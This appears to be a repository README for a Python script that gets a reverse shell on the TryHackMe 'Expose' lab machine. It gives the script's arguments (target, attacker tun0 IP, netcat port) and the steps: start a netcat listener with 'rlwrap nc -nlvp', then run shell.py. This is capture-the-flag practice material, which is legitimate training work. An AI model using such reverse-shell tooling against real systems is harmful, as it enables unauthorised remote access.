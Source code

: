 ## Expose-Tryhackme
Python script to get direct reverse shell of expose machine on tryhackme

-u = website's IP
-p = port on which website is running like 1337
-a = attacker's IP , Your tun0 IP
-nc = Netcat port , ex : 9001

#### Steps : 
1. run : rlwrap nc -nlvp {port
2. python3 shell.py -u {value} -p {value} -a {value} -nc {value}
3. Enjoy you shell

##### THANKYOU!
